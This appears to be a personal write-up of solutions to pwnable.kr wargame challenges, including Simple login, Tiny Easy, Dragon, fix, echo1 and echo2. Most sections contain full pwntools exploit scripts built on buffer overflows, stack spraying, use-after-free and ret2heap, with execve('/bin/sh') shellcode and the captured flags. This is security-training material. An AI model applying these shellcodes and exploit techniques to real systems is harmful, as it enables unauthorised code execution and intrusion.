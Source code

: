 #### Simple login

```python
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```python
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()
````
##### flag: What a tiny task :) good job!

#### Fsb 
it was a format string bug , and program asks u to guess a key(random val) ,there are 3 ways to solve problem : <br> 
    1) Leak key ( i did ,but problem is stroull is treadted as int if <stdlib.h> is not included ) <br>
    2) Overwrite key ( it takes a lot of time to print , u had to redirect to > /dev/null ) <br>
    3) Change the control flow ( which i have to try ) <br>
    
##### flag :Have you ever saw an example of utilizing [n] format character?? :(    
    
#### Dragon 
This problem was good , it took me 1 day to complete , u have to fight with dragon and if u win u get UAF to exploit , 
the dragon's power is 2 bytes stored in heap all u have to do is increment it;s power to 128 which is will overflow to 0 
and then exploit the bug to get the flag 
```python
from pwn import * 

#p = process('./dragon')

p = remote('pwnable.kr' ,9004)


p.recvlines(4)
p.sendline('2')
print "[+] playing with baby dragon"
p.recvlines(7)
p.sendline('2')
p.recvlines(9)
p.sendline('1')
print "[+] playing with mama dragon"
p.recvlines(9)
for i in range(3):
        print "[+] Activating Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using clarity"
	p.sendline('2')
	p.recvlines(11)


print "[+] Activating Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using clarity"
p.sendline('2')
p.recvuntil(':')

print "[+] Dragon killed !! , we Won !!"
p.sendline(pack(0x08048dbf))
p.interactive()

```
###### flag : MaMa, Gandhi was right! :)

#### fix 

The problem simply executes a shellcode , but asks us fix one byte the problem is stack space is so less so at some stage 
it eats our shellcode too , so to solve this there are 2 ways  <br> <br>
		1) issue ulimit -s unlimited ;patch 15'th byte to pop esp , then esp value will be "/bin/sh" but still will be
		   valid due to ulimit <br> <br>
		2) pathch 15'th byte to leave ; but now ecx+4 (argv[1]) will be some bytes so sh interprets as file to execute so create a symbolic link of that bytes to a.sh file 
		
##### flag : Sorry for blaming shell-strom.org :) it was my ignorance!


#### echo1
This one was 64 bit binary with lot of fake vulnerablity  to trick us ,there was not enough gadget to play with ... so u make one ,but all u had to do is prepare a 4 byt shellcode (to make rdi pointing to heap) which is stored at .bss section , and leak heap addr and ret2heap && voila the shell !!!!

```python
from pwn import * 
context.bits = 64
puts = 0x400630
o= 0x602098
id_ = 0x6020a0
echo1=0x400818
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
#p = process('./echo1')
p = remote('pwnable.kr',9010)
p.recvuntil(':')
payload = "\x5F\xC3"+"A"*10
p.sendline(payload)
p.recvuntil('>')
p.sendline('1')
p.recvline()
payload = "A"*40+pack(id_)+pack(o)+pack(puts)+pack(echo1)
p.sendline(payload)
s= p.recvlines(3)
context.bits = len(s[2])*8
heap_leak = unpack(s[2])
shellcode_addr = heap_leak+48
print "[+] Heap leak: "+hex(heap_leak)
p.recvline()
context.bits = 64
payload = "\x90"*(40-len(shellcode))+shellcode+pack(shellcode_addr)
p.sendline(payload)
p.recvlines(2)
p.interactive()
```
Note: there is easier method to solve this problem just do "A"*40+pack(ret_addr)+shellcode and jmp %rsp

##### flag : H4d_som3_fun_w1th_ech0_ov3rfl0w
		
#### echo2

This problem had UAF and format string bug , but i opted for UAF and  overwrite greetings func with .bss section containing shellcode luckily the heap addr is stored in rax , just manipulate it and  jump to our shellcode !!!

```python
from pwn import * 
context.bits = 64
id_ = 0x6020a0
shellcode =     "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
#p = process('./echo2')
p = remote('pwnable.kr',9011)
p.recvuntil(':')
payload = "\x04\x30\xFF\xE0"+"A"*10
p.sendline(payload)
p.recvuntil('>')
p.sendline('4')
p.recvuntil(')')
p.sendline('n')
p.recvuntil('>')
p.sendline('3')
p.recvline()
payload = "\x90"+shellcode+pack(id_)
p.sendline(payload)
p.recvline()
p.recvuntil('>')
p.sendline('3')
p.interactive()
```
##### flag : fun_with_UAF_and_FSB :)





